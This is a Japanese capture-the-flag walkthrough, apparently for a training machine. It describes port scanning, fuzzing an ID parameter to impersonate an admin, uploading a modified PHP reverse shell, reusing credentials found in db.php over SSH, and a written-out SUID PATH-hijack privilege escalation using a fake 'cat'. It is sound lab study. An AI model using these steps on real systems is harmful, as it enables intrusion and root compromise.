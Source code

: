 # 1.Port Scan 
対象マシンのポートをスキャン
ip=10.129.250.6
`nmap -sC -sV $ip`

![45d47843cf0fb8616a8edcb162087940.png](../_resources/45d47843cf0fb8616a8edcb162087940.png)

# 2.Burp Suite

## Local Proxy
対象HPに接続
http://$ip/

![ba7bed9861212273b386f7897f470797.png](../_resources/ba7bed9861212273b386f7897f470797.png)

login用ページと思われるディレクトリを発見
![a5827a020d78d0729156353852591dd6.png](../_resources/a5827a020d78d0729156353852591dd6.png)

## Guest login
ゲストでログイン

![8f22d7efb189df67c1aa8a7813b79e37.png](../_resources/8f22d7efb189df67c1aa8a7813b79e37.png)

![7a15c188f29c929e9aa04c8dc9592a45.png](../_resources/7a15c188f29c929e9aa04c8dc9592a45.png)

ログインページのパケットを傍受

![50060c167b817853f9591ce6145a313e.png](../_resources/50060c167b817853f9591ce6145a313e.png)

# 3.Fuzzing
## admin info
右図赤枠の箇所でファジングを実施

![d632620577c6476d0c97e392a316067d.png](../_resources/d632620577c6476d0c97e392a316067d.png)

ID=1がadminであることを確認

![c3415e527202f0309347b802d9ed8978.png](../_resources/c3415e527202f0309347b802d9ed8978.png)


## Revers shell
下図赤枠内パラメータをアドミンの物に変更

![ba2b093e44d88550f531741c9934726a.png](../_resources/ba2b093e44d88550f531741c9934726a.png)

管理者用アップローダーへ接続

![b98b35d67e41d1f98923d4cca1687b47.png](../_resources/b98b35d67e41d1f98923d4cca1687b47.png)

kaliのデフォルトについてるリバースシェルの下図赤枠内を変更
`sudo vim /usr/share/webshells/php/php-reverse-shell.php`

![3dcab1c5508c1bf63101c022bbd47bd7.png](../_resources/3dcab1c5508c1bf63101c022bbd47bd7.png)

変更したものをアップロード

![77b8ae2afd72cc4f016531e50a643af3.png](../_resources/77b8ae2afd72cc4f016531e50a643af3.png)

アップロードしたものをgobusterで確認。

![6bcdd8fe55f595fa01cd68931123965f.png](../_resources/6bcdd8fe55f595fa01cd68931123965f.png)


![f62c2cd0941e9c9da144bc0d25034347.png](../_resources/f62c2cd0941e9c9da144bc0d25034347.png)

# 5. Use flag Get
サーバ内のuser.txtを検索

$ find / -name *user.txt* 2> /dev/null

$ cd /home/robert/

$ ls

$ cat user.txt

![0edfe3217b29b18377779dfc17ba6397.png](../_resources/0edfe3217b29b18377779dfc17ba6397.png)

root.txtがあると思われるディレクリを発見したが権限が無い為アクセスできない。

![9c8e26e622039954556ee5c91fc490cf.png](../_resources/9c8e26e622039954556ee5c91fc490cf.png)

db.php内のユーザ情報を取得

![3addcc654d858a5d6e304b64fba7629f.png](../_resources/3addcc654d858a5d6e304b64fba7629f.png)


# 6.SSH connect

 SSHを使いrobertユーザで接続

`ssh robert@$ip`
 
 ![390a02dd703ddf2bc96b56b66b8e4849.png](../_resources/390a02dd703ddf2bc96b56b66b8e4849.png)
 
ログインしているユーザが所属しているグループを発見

$ id

![e94d29e48284f38c2fa98e56063bb7b6.png](../_resources/e94d29e48284f38c2fa98e56063bb7b6.png)

bugtrackerグループに所属していることを確認

$ find / -type f -group bugtracker 2>/dev/null

![ec85784a340fd51ae816a796226c8997.png](../_resources/ec85784a340fd51ae816a796226c8997.png)


bugtrackerがSUIDを所持している事を確認

ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker

![8c75ab37f25b8269981b3bab3d31fe41.png](../_resources/8c75ab37f25b8269981b3bab3d31fe41.png)

Bug Trackerは/root/reportsディレクリ内に無条件でcatを使用することを確認

![f5982646e76314fb6222c9e8a0486f5e.png](../_resources/f5982646e76314fb6222c9e8a0486f5e.png)


tmpディレクトリに移動、不正なcatファイルを作成し実行権限を付与
環境変数に作成したcatファイルが優先して選ばれるように書き換えを行う

$ cd /tmp

$ echo "/bin/sh" > cat

$ chmod +x cat  

$ export PATH=/tmp:$PATH

$ echo $PATH

$ bugtracker

![0804246115a2505a54b5914b879cab38.png](../_resources/0804246115a2505a54b5914b879cab38.png)